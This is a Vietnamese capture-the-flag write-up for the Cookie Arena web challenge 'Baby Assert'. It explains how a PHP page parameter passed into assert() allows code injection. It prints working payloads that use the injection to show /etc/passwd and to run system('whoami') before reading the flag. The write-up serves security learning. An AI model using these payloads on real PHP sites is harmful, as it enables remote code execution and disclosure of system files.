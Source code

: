 ```yaml
---
title: Write-Up Baby Assert
date: 2023-09-15 3:55:00 +0700
categories: [CTF, Cookie Hân Hoan, Write-Up, Web]
tags: [web, write-up, ctf]     # TAG names should always be lowercase
---
```

Địa chỉ : **[Baby Assert](https://battle.cookiearena.org/challenges/web/baby-assert)**

## Challenge Detail

Trong PHP, có rất nhiều cách để thay thế lệnh điều khiển If Else. Tuy nhiên, không phải lập trình viên nào cũng lường trước được những hậu quả nghiêm trọng khi sử dụng và thiết lập những tham số an toàn trên môi trường Production.

## Tags

- php
- Assert
- Code Injection

## Web Analysis:


- Tại `/index.php` trang web:

Có 3 Nút home, about và Secret mình xem thử từng cái.

![Untitled](/assets/writeup/cookie/BabyAssert/0.png)

Ta thấy ở trang web có 1 parameter **`?page=`**  ngay lúc này mình đã test về lỗi LFI ( ../ , ….//)  tuy nhiên nó đã không thực thi.

Quan sát thì web có gợi ý 1 đoạn code của trang web này:

```php
$file = "pages/" . $page . ".php";
assert(...$file...) or die("Detected hacking attempt!");
require_once $file;
```

Lúc này mình thấy có hàm `assert` có vẻ kì lạ…

- Tại `ABOUT`trang web:

![Untitled](/assets/writeup/cookie/BabyAssert/1.png)

Không có gì đặc biệt.

- Tại `SECRET` trang web:

![Untitled](/assets/writeup/cookie/BabyAssert/2.png)

Ta thấy `file flag` được đặt tên + thêm ký tự random. Vậy cho dù mình có thực thi được ../ lỗi LFI thì cũng không thể biết được tên cụ thể của file flag mà xem được. Nên phải RCE hệ thống.

`+1dea: RCE`

## PHÂN TÍCH ASSERT

Ở lúc này thì mình chưa biết về hàm assert hoạt động như thế nào và tìm hiểu nó.

![Untitled](/assets/writeup/cookie/BabyAssert/3.png)

![Untitled](/assets/writeup/cookie/BabyAssert/4.png)

chi tiết ở : [how assertions can get you hacked](https://infosecwriteups.com/how-assertions-can-get-you-hacked-da22c84fb8f6)

Vậy thì giải thích sơ

`**Assert()**` là một hàm đánh giá một biểu thức PHP nhất định và nếu biểu thức đánh giá là **`false`**, nó sẽ tạo ra một thông báo cảnh báo hoặc gây ra lỗi nghiêm trọng tùy thuộc vào cấu hình PHP. Nó thường được sử dụng cho mục đích gỡ lỗi và thử nghiệm.

Tuy nhiên, **`assert()`**có thể trở thành rủi ro bảo mật khi sử dụng không đúng cách, đặc biệt khi dữ liệu do người dùng kiểm soát được truyền trực tiếp vào chức **`assert()`**năng mà không được xác thực hoặc khử trùng thích hợp.

## Exploiting Assert()

**PAYLOAD AT HACKTRICK : [CLICK](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-via-phps-assert)**

![Untitled](/assets/writeup/cookie/BabyAssert/5.png)

ở đây để RCE thì ta inject vào 1 chuổi và +PHP 

thì nó có thể thực thi command như là webshell

Thử nghiệm

```php
PAYLOAD:
' and die(show_source('/etc/passwd')) or ‘
```

![Untitled](/assets/writeup/cookie/BabyAssert/6.png)

Nó đã thực thi được payload của chúng ta tuy nhiên không biết file flag tên gì nên mình phải RCE.

```php
PAYLOAD:
' and die(system("whoami")) or '
```

![Untitled](/assets/writeup/cookie/BabyAssert/7.png)

THÀNH CÔNG RỒI 

việc còn lại là xem file FLag

![Untitled](/assets/writeup/cookie/BabyAssert/8.png)

![Untitled](/assets/writeup/cookie/BabyAssert/9.png)

DONE =)))

`Written by Ren`